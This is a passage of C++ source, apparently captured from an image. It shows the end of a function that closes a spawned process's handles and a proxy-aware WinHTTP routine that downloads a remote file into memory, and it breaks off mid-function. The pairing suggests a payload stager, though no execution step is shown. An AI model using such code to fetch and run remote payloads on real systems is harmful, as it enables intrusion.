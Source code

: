 ```

    // close handles
    CloseHandle(process_info->hThread);
    CloseHandle(process_info->hProcess);
}

std::vector<BYTE> Download(LPCWSTR baseAddress, LPCWSTR filename) {

    // initialise session
    HINTERNET hSession = WinHttpOpen(
        NULL,
        WINHTTP_ACCESS_TYPE_AUTOMATIC_PROXY,    // proxy aware
        WINHTTP_NO_PROXY_NAME,
        WINHTTP_NO_PROXY_BYPASS,
        WINHTTP_FLAG_SECURE_DEFAULTS);          // enable ssl

    // create session for target
    HINTERNET hConnect = WinHttpConnect(
        hSession,
        baseAddress,
        INTERNET_DEFAULT_HTTPS_PORT,            // port 443
        0);

    // create request handle
    HINTERNET hRequest = WinHttpOpenRequest(
        hConnect,
        L"GET",
        filename,
        NULL,
        WINHTTP_NO_REFERER,
        WINHTTP_DEFAULT_ACCEPT_TYPES,
        WINHTTP_FLAG_SECURE);                   // ssl

    // send the request
    WinHttpSendRequest(
        hRequest,
        WINHTTP_NO_ADDITIONAL_HEADERS,
        0,
        WINHTTP_NO_REQUEST_DATA,
        0,
        0,
        0);

    // receive response
    WinHttpReceiveResponse(
        hRequest,
        NULL);

    // read the data
    std::vector<BYTE> buffer;
    DWORD bytesRead = 0;

    do {

        BYTE temp[4096]{};
        WinHttpReadData(hRequest, temp, sizeof(temp), &bytesRead);

        if (bytesRead > 0) {
            buffer.insert(buffer.end(), temp, temp + bytesRead);
        }

    } while (bytesRead > 0);

```